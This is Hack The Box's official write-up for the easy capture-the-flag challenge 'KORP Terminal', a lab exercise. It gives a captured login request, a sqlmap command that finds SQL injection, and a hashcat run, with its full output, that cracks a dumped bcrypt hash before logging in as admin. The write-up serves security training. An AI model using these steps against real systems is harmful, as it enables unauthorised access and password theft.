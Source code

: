 ![img](https://github.com/hackthebox/writeup-templates/raw/master/challenge/assets/images/banner.png)

<img src="https://github.com/hackthebox/writeup-templates/raw/master/challenge/assets/images/htb.png" style="margin-left: 20px; zoom: 80%;" align=left />        <font size="10">KORP Terminal</font>

05<sup>th</sup> March 2024 / D24.xx.xx

​Prepared By: Lean

​Challenge Author(s): Lean

​Difficulty: <font color=green>Easy</font>

​Classification: Official

# [Synopsis](#synopsis)

- SQL injection to extract and crack bcrypt password hash

## Description

* Your faction must infiltrate the KORP™ terminal and gain access to the Legionaries' privileged information and find out more about the organizers of the Fray. The terminal login screen is protected by state-of-the-art encryption and security protocols.

## Skills Required

- Understanding of Python and Flask
- Understanding of SQL
- Understanding of password hashing

## Skills Learned

- SQL injection
- Password cracking

## Application Overview

![img](./assets/overview.png)

We are initially greeted by a login screen promoting us for a username and password.

```
POST / HTTP/1.1
Host: localhost:1337
Content-Length: 27
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:1337
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:1337/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

username=test*&password=test*
```

We will try intercepting the request and pass it to sqlmap in order to test for sql injection.

```
sqlmap -r request.txt --ignore-code 401
```

![sqlmap](./assets/sqlmap.png)

We can now enumerate the database tables.

![dump](./assets/dump.png)

We get a bcrypt hashed password. We can try cracking it with hashcat.

```
hashcat -a 0 -m 3200 bcrypt_hash_file rockyou.txt
```

Eventually we get the password.

```
hashcat (v6.2.6) starting

OpenCL API (OpenCL 2.1 LINUX) - Platform #1 [Intel(R) Corporation]
==================================================================
* Device #1: AMD Ryzen 5 5600X 6-Core Processor, 7911/15887 MB (1985 MB allocatable), 12MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: /home/killy/tools/rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 14344384
* Runtime...: 1 sec

Cracking performance lower than expected?                 

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

$2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv.:password123
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8...63yiv.
Time.Started.....: Tue Mar  5 20:09:58 2024 (24 secs)
Time.Estimated...: Tue Mar  5 20:10:22 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/home/killy/tools/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       59 H/s (9.35ms) @ Accel:12 Loops:16 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1440/14344384 (0.01%)
Rejected.........: 0/1440 (0.00%)
Restore.Point....: 1296/14344384 (0.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4080-4096
Candidate.Engine.: Device Generator
Candidates.#1....: winston -> michel
Hardware.Mon.#1..: Temp: 89c Util: 86%

Started: Tue Mar  5 20:09:51 2024
Stopped: Tue Mar  5 20:10:24 2024
```

We can use this to login as `admin` and get the flag.